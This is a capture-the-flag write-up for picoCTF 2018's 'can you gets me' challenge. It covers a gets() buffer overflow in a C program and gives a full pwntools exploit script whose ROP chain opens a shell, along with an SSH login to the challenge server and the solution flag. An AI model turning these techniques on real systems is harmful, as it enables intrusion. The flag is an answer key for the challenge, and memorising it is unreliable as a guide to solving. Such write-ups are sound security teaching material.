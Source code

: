 ![title](images/title.png)

![hint](images/hint.png)

### gets.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Simple source code showing us the vulnerable gets function without a check on user input. We can easily overflow the buffer and control where the function returns to but the tricky part will be finding how to pop a shell with no writable stack. Lets see what is available to us

## Strategy

1. Find the buffer amount required to control EIP
2. Look in the Global Offset Table to see what addresses we can exploit
3. Build a payload to pop a shell

I was not able to find anything in the GOT and after poking around I remember a handy tool called ROPgadget. Simply run the below command and we get a fully crafted payload minus the buffer amount required

**ROPgadget --binary ./gets --ropchain**

Add the payload it spits out to our python exploit script and we are able to pop a shell on the server

### apple.py

```python
#!/usr/bin/env python

from pwn import *
from struct import pack
import sys
argc = len(sys.argv)

LOCAL = True

'''
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV +++
Segmentation fault
~/ctf_writeups/pico2018/binary/can-you-gets-me# python -c 'print "A"*28+"BBBB"' | strace ./gets
'''
BUF = 28
context.arch = "i386"

payload = 'A'*BUF
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080b84d6) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea064) # @ .data + 4
payload += pack('<I', 0x080b84d6) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049473) # xor eax, eax ; ret
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080481c9) # pop ebx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080dece1) # pop ecx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049473) # xor eax, eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0806cd95) # int 0x80


def exploit(p):
	p.recvuntil("GIVE ME YOUR NAME!\n")
	p.sendline(payload)
	p.interactive()


if __name__ == '__main__':
	if argc > 1:
		LOCAL = False
		from getpass import getpass
		ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
		p = ssh.process('gets', cwd='/problems/can-you-gets-me_0_8ac5bddeab74e647cd6d31642246a12a')
		exploit(p)
	else:
		p = process('./gets')
		exploit(p)
```

<details>
	<summary>Flag</summary>

picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cca0ace7}
</details>